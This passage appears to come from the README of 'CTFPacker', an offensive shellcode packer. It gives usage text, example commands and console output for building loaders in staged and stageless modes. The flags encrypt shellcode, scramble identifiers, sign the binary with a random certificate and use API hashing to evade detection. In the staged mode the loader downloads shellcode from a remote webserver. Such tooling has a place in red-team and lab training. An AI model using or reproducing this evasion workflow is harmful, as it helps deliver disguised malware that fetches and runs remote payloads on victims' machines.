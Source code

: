 ```
Example usage: python main.py staged -p shellcode.bin -i 192.168.1.150 -po 8080 -pa '/shellcode.bin' -o shellcode -e -s -si
```

Stageless:

```
usage: main.py stageless [-h] -p PAYLOAD [-o OUTPUT] [-e] [-s] [-si]

options:
  -h, --help            show this help message and exit
  -p PAYLOAD, --payload PAYLOAD
                        Shellcode to be packed
  -o OUTPUT, --output OUTPUT
                        Output path where the loader is gonna be saved.
  -e, --encrypt         Encrypt the shellcode via AES-128-CBC.
  -s, --scramble        Scramble the loader's functions and variables.
  -si, --sign           Sign the loader with a random certificate.

Example usage: python main.py stageless -p shellcode.bin -o shellcode -e -s -si
```

### Staged

When using the staged "mode", the packer will generate you a .bin file named accordingly to your `-o` arg. With the `-pa` argument, you are actually telling the loader *where* on the websever (basically the path) it should search for that .bin file. So TLDR those two values should usually be the same.

Example:

```powershell
python main.py staged -p "C:\Code\CTFPacker\calc.bin" -i 192.168.2.121 -po 8080 -pa /shellcode.bin -o shellcode -s -si



 ▄████▄  ▄▄▄█████▓  █████▒██▓███   ▄▄▄       ▄████▄   ██ ▄█▀▓█████  ██▀███
▒██▀ ▀█  ▓  ██▒ ▓▒▓██   ▒▓██░  ██▒▒████▄    ▒██▀ ▀█   ██▄█▒ ▓█   ▀ ▓██ ▒ ██▒
▒▓█    ▄ ▒ ▓██░ ▒░▒████ ░▓██░ ██▓▒▒██  ▀█▄  ▒▓█    ▄ ▓███▄░ ▒███   ▓██ ░▄█ ▒
▒▓▓▄ ▄██▒░ ▓██▓ ░ ░▓█▒  ░▒██▄█▓▒ ▒░██▄▄▄▄██ ▒▓▓▄ ▄██▒▓██ █▄ ▒▓█  ▄ ▒██▀▀█▄
▒ ▓███▀ ░  ▒██▒ ░ ░▒█░   ▒██▒ ░  ░ ▓█   ▓██▒▒ ▓███▀ ░▒██▒ █▄░▒████▒░██▓ ▒██▒
░ ░▒ ▒  ░  ▒ ░░    ▒ ░   ▒▓▒░ ░  ░ ▒▒   ▓▒█░░ ░▒ ▒  ░▒ ▒▒ ▓▒░░ ▒░ ░░ ▒▓ ░▒▓░
  ░  ▒       ░     ░     ░▒ ░       ▒   ▒▒ ░  ░  ▒   ░ ░▒ ▒░ ░ ░  ░  ░▒ ░ ▒░
░          ░       ░ ░   ░░         ░   ▒   ░        ░ ░░ ░    ░     ░░   ░
░ ░                                     ░  ░░ ░      ░  ░      ░  ░   ░
░                                           ░



        Author: B0lg0r0v
        https://arthurminasyan.com

[i] Staged Payload selected.
[+] Starting the process...
[i] Corresponding template selected..
[+] Template files modified !
[i] Encryption not selected.
[+] Compiling the loader...
[i] Scrambling selected.
[+] Scrambling the loader...
[+] Loader scrambled !
[i] Signing selected.
[+] Signing the loader...
rm -f *.o *.obj ctfloader.exe
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -c api_hashing.c -o api_hashing.o
```